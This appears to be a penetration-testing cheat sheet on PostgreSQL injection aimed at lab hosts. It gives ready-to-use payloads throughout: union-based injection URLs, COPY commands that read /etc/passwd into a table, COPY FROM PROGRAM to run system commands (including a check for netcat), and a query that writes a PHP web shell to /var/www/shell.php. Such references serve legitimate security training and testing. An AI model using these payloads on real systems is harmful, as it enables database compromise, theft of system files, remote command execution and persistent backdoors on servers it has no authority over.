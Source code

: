 # PostgreSQL Injection

## Read Files

1. Create a new table: `CREATE TABLE cracked(data TEXT);`
2. Copy target file contents into the table: `COPY cracked FROM '/etc/passwd';`
3. Read table contents: `select data from cracked;`

**2-Step Example:**

    http://10.10.10.4/index.php?search=abc%27%20union%20all%20select%20null,null,null,null,null;%20CREATE%20TABLE%20cracked(data%20TEXT);%20COPY%20cracked%20FROM%20%27/etc/passwd%27;%20--#
    http://10.10.10.4/index.php?search=abc%27%20union%20all%20select%20null,data,null,null,null%20from%20cracked;%20--#

## Command Execution

1. Create a fresh table: `DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text);`
2. Run system command: `COPY cmd_exec FROM PROGRAM 'id';`
3. View command output: `SELECT cmd_output FROM cmd_exec;`

**2-Step Example:**

    http://10.10.10.4/index.php?search=abc%27%20union%20all%20select%20null,null,null,null,null;%20DROP%20TABLE%20IF%20EXISTS%20cmd_exec;%20CREATE%20TABLE%20cmd_exec(cmd_output%20text);%20COPY%20cmd_exec%20FROM%20PROGRAM%20%27which%20nc%27;%20--#
    http://10.10.10.4/index.php?search=abc%27%20union%20all%20select%20null,cmd_output,null,null,null%20from%20cmd_exec;%20--#

## Shell Upload

If write permission is granted, new files can be created with desired file contents:

    10.10.10.46/dashboard.php?search=elixir' union all select null,null,null,null,null; CREATE TABLE pentestlab (t TEXT); INSERT INTO pentestlab(t) VALUES('<?php system($_GET["cmd"])?>'); COPY pentestlab(t) TO '/var/www/shell.php'; --#

## References

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-file-read